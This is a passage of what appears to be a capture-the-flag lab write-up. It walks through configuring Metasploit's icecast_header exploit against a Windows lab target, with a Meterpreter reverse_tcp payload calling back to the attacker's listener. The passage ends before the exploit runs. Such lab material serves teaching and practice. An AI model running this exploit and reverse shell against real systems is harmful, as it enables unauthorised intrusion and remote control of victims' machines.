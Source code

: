  `
### Let's go ahead and select this module for use. Type either the command `use icecast` or `use 0` to select our search result.

```
msf6 exploit(windows/http/icecast_header) > use 0
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/icecast_header) > 


```
### Following selecting our module, we now have to check what options we have to set. Run the command `show options`. What is the only required setting which currently is blank?


```
msf6 exploit(windows/http/icecast_header) > show options 

Module options (exploit/windows/http/icecast_header):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/docs/us
                                      ing-metasploit/basics/using-metasploit.html
   RPORT   8000             yes       The target port (TCP)



msf6 exploit(windows/http/icecast_header) > set rhosts 10.10.8.156
rhosts => 10.10.8.156

```

Ans> RHOSTS

### First let's check that the LHOST option is set to our tun0 IP (which can be found on the access page). With that done, let's set that last option to our target IP. Now that we have everything ready to go, let's run our exploit using the command `exploit`

```
msf6 exploit(windows/http/icecast_header) > set lhost tun0
lhost => 10.2.111.254
msf6 exploit(windows/http/icecast_header) > options 

Module options (exploit/windows/http/icecast_header):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/docs/us
                                      ing-metasploit/basics/using-metasploit.html
   RPORT   8000             yes       The target port (TCP)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.2.111.254     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

```